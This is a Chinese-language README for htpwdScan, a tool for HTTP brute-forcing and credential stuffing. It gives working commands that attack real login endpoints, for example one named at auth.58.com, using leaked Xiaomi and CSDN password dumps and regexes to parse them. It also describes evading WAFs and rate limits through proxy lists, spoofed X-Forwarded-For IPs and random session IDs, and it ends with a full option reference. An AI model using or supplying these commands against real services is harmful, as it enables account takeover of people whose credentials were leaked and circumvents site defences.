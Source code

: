 htpwdScan
====

**htpwdScan** 是一个简单的HTTP暴力破解、撞库攻击脚本. 它的特性：

- 支持批量校验并导入HTTP代理，低频撞库可以成功攻击大部分网站，绕过大部分防御策略和waf
- 支持直接导入互联网上泄露的**社工库**，发起撞库攻击
- 支持导入超大字典

### 简单示例 ###

* HTTP Basic认证

	>htpwdScan.py -u=http://auth.58.com/ -basic user.txt password.txt
	
	>导入用户名密码字典即可

* 表单破解
	>htpwdScan.py -f post2.txt -d user=user.txt passwd=password.txt -err="success\":false"
	
	>从 post2.txt 导入抓的http包，user和passwd是需要破解的参数，而 user.txt password.txt 是保存了密码的字典文件
	
	>**success":false** 是选择的失败标记，标记中若有双引号，请记得用右斜杠 \ 转义

* GET参数破解
	>htpwdScan.py -d passwd=password.txt -u="http://xxx.com/index.php?m=login&username=test&passwd=test" -get -err="success\":false"
	
	> 使用-get参数告诉脚本此处是GET请求
	
* 撞库攻击
	> htpwdScan.py -f=post.txt -database loginname,passwd=xiaomi.txt -regex="(\S+)\s+(\S+)" -err="用户名或密码错误" -fip

	>htpwdScan.py -f=post.txt -database passwd,loginname=csdn.net.sql -regex="\S+ # (\S+) # (\S+)" -err="用户名或密码错误" -fip
	
	>使用小米和csdn库发起撞库攻击。post.txt是抓包的HTTP请求

	>参数-regex设定从文件提取参数的正则表达式，此处需分组，分组的方式是使用括号()
	
	>小米的数据行格式是 `xxx@163.com	xxxxxxx` 也即 `(用户名)空白字符(密码)`
	
	>`(\S+)\s+(\S+)` 可指定第一个非空白字符拿去填充loginname，而第二个非空白字符串拿去填充passwd
	
	>csdn的数据行格式是`zdg # 12344321 # zdg@csdn.net` . 正则表达式写作`\S+ # (\S+) # (\S+)`
	
	>第一个#后面的非空白字符串填充passwd，第二个#后面的非空白字符串填充loginname
	
	>请注意，参数的顺序是重要的
	
	>-fip 是启用伪造随机IP
	
* 校验HTTP代理
	> htpwdScan.py -f=post.txt -proxylist=proxies.txt -checkproxy -suc="用户名或密码错误"
	
	> 要破解某个网站，批量测试使用代理是否连通目标网站，把HTTP请求保存到post.txt，然后用-suc参数设定连通标记
	
	>一个简单可行的校验方式是：
	
	> htpwdScan.py -u=http://www.baidu.com -get -proxylist=available.txt -checkproxy -suc="百度一下"

## 完整参数说明 ##
脚本支持的小功能较多，请耐心阅读以下完整说明。建议多使用 `-debug` 参数查看HTTP请求是否有问题，没问题再发起真正的破解。

	usage: htpwdScan.py [options]
	
	* An HTTP weak pass scanner. By LiJieJie *
	
	optional arguments:
	  -h, --help            显示帮助
	
	Target:
	  -u REQUESTURL         设定目标URL, 示例.
	                        -u="https://www.test.com/login.php"
	  -f REQUESTFILE        从文件导入HTTP请求
	  -https                当从文件导入HTTP请求时，启用https(SSL)
	  -get                  使用GET方法，默认: POST
	  -basic  [ ...]        HTTP Basic 暴力破解.
	                        示例. -basic users.dic pass.dic
	
	Dictionary:
	  -d Param=DictFile [Param=DictFile ...]
	                        为参数设定字典文件,
	                        支持哈希函数如 md5, md5_16, sha1.
	                        示例. -d user=users.dic pass=md5(pass.dic)
	
	Detect:
	  -no302                无视302跳转, 默认302敏感
	  -err ERR [ERR ...]    响应文本的破解失败标记,
	                        示例. -err "user not exist" "password wrong"
	  -suc SUC [SUC ...]    响应文本中的破解成功标记,
	                        e.g. -suc "welcome," "admin"
	  -herr HERR            响应HTTP头的破解失败标记
	  -hsuc HSUC            响应HTTP头的破解成功标记
	  -rtxt RetryText       响应文本中的重试标记，出现则重试请求,
	                        示例. -rtxt="IP blocked"
	  -rntxt RetryNoText    响应文本中的重试标记,未出现则重试请求，
	                        示例. -rntxt="<body>"
	  -rheader RetryHeader  响应头中的重试标记，出现则重试请求,
	                        示例. -rheader="Set-Cookie:"
	  -rnheader RetryNoHeader
	                        响应头中的重试标记，未出现则重试请求,
	                        示例. -rheader="HTTP/1.1 200 OK"
	
	Proxy and spoof:
	  -proxy Server:Port    设定少量HTTP代理
	                        示例. -proxy=127.0.0.1:8000,8.8.8.8:8000
	  -proxylist ProxyListFile
	                        从文件批量导入HTTP代理,
	                        示例. -proxylist=proxys.txt
	  -checkproxy           检查代理服务器的可用性.
	                        可用代理输出到 001.proxy.servers.txt
	  -fip                  生成随机X-Forwarded-For欺骗源IP
	  -fsid FSID            生成随机session ID. 示例. -fsid PHPSESSID
	  -sleep SECONDS        每次HTTP结束，等待SECONDS秒,
	                        避免IP被临时屏蔽，进入黑名单
	
	Database attack:
	  -database DATABASE    导入社工库中的数据.
	                        示例. -database user,pass=csdn.txt
	  -regex REGEX          从社工库中提取数据的正则表达式，必须分组.
	                        示例. -regex="(\S+)\s+(\S+)"
	
	General:
	  -t THREADS            工作线程数，默认50
	  -o OUTPUT             输出文件.  默认: 000.Cracked.Passwords.txt
	  -debug                进入debug模式检查HTTP请求和HTTP响应
	  -nov                  只显示破解成功的条目，不显示进度
	  -v                    show program's version number and exit
